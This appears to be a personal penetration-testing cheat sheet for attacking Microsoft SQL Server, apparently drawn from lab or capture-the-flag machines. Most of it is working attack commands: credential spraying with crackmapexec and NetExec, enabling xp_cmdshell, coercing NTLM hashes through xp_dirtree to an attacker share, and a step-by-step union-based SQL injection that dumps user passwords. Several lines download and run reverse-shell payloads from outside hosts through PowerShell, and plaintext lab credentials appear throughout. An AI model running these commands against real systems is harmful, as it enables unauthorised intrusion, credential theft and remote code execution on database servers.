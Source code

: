 # MSSQL Port 1433

##### Enumeration

TEST DEFAULT CREDENTIALS.

````
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip
````

#### PowerUpSQL

```bash
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
Invoke-SQLDumpInfo -Username flight\c.bum -password Tikkycoll_431012284 -Verbose
Get-SQLInstanceLocal -Username flight\c.bum -password Tikkycoll_431012284 -Verbose
Invoke-SQLAudit -Verbose -Instance SQLServer1
Invoke-SQLAudit -Username flight\c.bum -password Tikkycoll_431012284 -Verbose
sqlcmd.exe -S nagoya.nagoya-industries.com -U administrator -Q "EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"
Get-SQLInstanceDomain -Verbose -DomainAccount svc_mssql
sqlcmd.exe -Q "use master; exec xp_dirtree '\\192.168.45.221\share\test'" -S nagoya.nagoya-industries.com`
```

##### Impacket

````
impacket-mssqlclient $user:$pass@$ip -windows-auth
````

##### Invoke-RunAs

If you have credentials for another user on a system, but cannot seem to login as them through any of the traditional methods, use the "Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "<reverse shell code>"" and execute a reverse shell to get onto the system as them.

##### Crackmapexec

````
proxychains crackmapexec mssql -d example.com -u sql_service -p password123  -x "whoami" 10.10.126.148
proxychains crackmapexec mssql -d example.com -u sql_service -p password123  -x "whoami" 10.10.126.148 -q 'SELECT name FROM master.dbo.sysdatabases;'
````

##### NetExec

Do not trust nxc's mssql  thing. try it manually, "impacket-mssqlclient administrator:hghgib6vHT3bVWf@10.10.112.154 -windows-auth"

````
nxc mssql $ip -u users.txt -p passwords.txt --continue-on-success
nxc mssql $ip -u users.txt -H $HASH --continue-on-success
````

##### Logging in

````
sqsh -S $ip -U sa -P CrimsonQuiltScalp193 #linux
proxychains sqsh -S 10.10.126.148 -U example.com\\sql_service -P password123 -D msdb #windows
````

##### Expliotation

```bash
xp_cmdshell whoami
enable_xp_cmdshell

# set up smb share locally to grab hash
xp_dirtree \\192.168.45.221\share\file
```

````
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell 'whoami'
go
xp_cmdshell 'powershell "Invoke-WebRequest -Uri http://10.10.126.147:7781/rshell.exe -OutFile c:\Users\Public\reverse.exe"'
go
xp_cmdshell 'c:\Windows\Tasks\pwn.exe'
go
````

Revshell Command that worked:

```bash
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.163:8000/rev.ps1") | powershell -noprofile';--+
```

#### Possible Queries

Test for xp_cmdshell first. A great guide is pentestmonkey's mssql cheatsheet.

Test for stacked queries, which is unique to MSSQL. Open up share on machine, or nc on 445.

```bash
q=500'; exec xp_dirtree '\\10.10.14.8\share\file';-- - # Used 500' bc union returned on this
```

Test for xp_cmdshell.

```bash
q=500'; exec xp_cmdshell 'ping 10.10.14.8';-- - # Run sudo tcpdump -i tun0 icmp
q=500'; exec sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; exec xp_cmdshell 'ping 10.10.14.8';-- -
q=500' UNION SELECT 1,2,3,4,5,6; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.8:8000/rev.ps1") | powershell -noprofile';--+
q=500' UNION SELECT 1,2,3,4,5,6; exec sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.8:8000/rev.ps1") | powershell -noprofile';--+
```

For this, test for SQLi by doing something like '500%-- -' and checking response. Pick a field in response that only is returned for a valid search, and see when it's not returned.

```bash
select * from movies where name like '%500%';
q=500%'-- -
q=%500'-- -
q=500%' union select 1,2,3-- - # Until that field is returned
q=500' union select 1,2,3,4,5,6-- - # Same, RETURNED
q=500' union select 1,7337,9001,4,5,6-- -
q=500' union select 1,7337,9001,4,5,6-- -
q=500' union select 1,@@version,9001,4,5,6-- -
q=500' union select 1,user,9001,4,5,6-- -
q=500' union select 1,db_name(0),9001,4,5,6-- - # Run through integers to enum dbs
q=500' union select 1,name,3,4,5,6 from streamio..sysobjects where xtype='u'-- - # db is streamio
q=500' union select 1,CONCAT(name,':',id),3,4,5,6 from streamio..sysobjects where xtype='u'-- -
q=500' union select 1,string_agg(CONCAT(name,':',id),'|'),3,4,5,6 from streamio..sysobjects where xtype='u'-- - # Putting on a single row
q=500' union select 1,string_agg(CONCAT(name,':',id),'|'),3,4,5,6 from streamio..syscolumns where id=901578250-- - # 901.. is the users table that was returned from id
q=500' union select 1,string_agg(name,'|'),3,4,5,6 from streamio..syscolumns where id=901578250-- - # Don't need the id anymore, the last two have returned the columns, such as password, username, but not the data itself
q=500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from users-- -
q=500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from streamio..users-- -
```

```bash
select * from movies where CONTAINS (name, '*500*');
```

#### Enumeration

```bash
SELECT name FROM sys.databases;
SELECT * FROM master.INFORMATION_SCHEMA.TABLES;
```
##### Notes

If you're chiseling to look at mssql through the website on your localhost, go to phpmyadmin directory on the website

#### On Windows

If it has MSSQL installed. If not, you could always use Chisel.

```bash
sqlcmd -U db_admin -P 'B1@hx31234567890' -Q "USE STREAMIO_BACKUP; select username,password from users;"
```

```bash
sqlcmd -?
sqlcmd -Q "select name from sys.databases"
sqlcmd -Q "select * from sys.databases"
sqlcmd -Q "select name from sys.databases"
sqlcmd -Q "use umbraco; select * from umbraco..sysobjects"
sqlcmd -Q "use ADSync; exec xp_dirtree '\\10.10.14.8\share\file'"
sqlcmd -Q "use ADSync; select name from PK_mms_management_agent"
```

```bash
. .\PowerUpSQL.ps1
Invoke-SQLAudit -Verbose
```

If AD Azure, check out "https://blog.xpnsec.com/azuread-connect-for-redteam/".

sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; exec xp_cmdshell 'whoami'"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; EXEC SP_CONFIGURE 'xp_cmdshell' , 1; exec xp_cmdshell 'c:\Windows\Tasks\shell80.exe'"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; exec xp_dirtree '\\192.168.45.221\share\file'"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; select * from umbraco..cmsMember"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; select * from umbraco..sysobjects"umbracoUserLogin umbracoUser umbracoUserGroup

.\sqlcmd.exe -Q "exec xp_cmdshell 'whoami'"
.\sqlcmd -Q "use master; EXEC SP_CONFIGURE 'xp_cmdshell' , 1; exec xp_cmdshell 'whoami'"
sqlcmd -Q "use msdb; exec xp_cmdshell 'whoami'"
sqlcmd.exe -Q "use msdb; EXEC SP_CONFIGURE 'xp_cmdshell' , 1; exec xp_cmdshell 'C:\Users\Christopher.Lewis\Documents\shell139.exe'"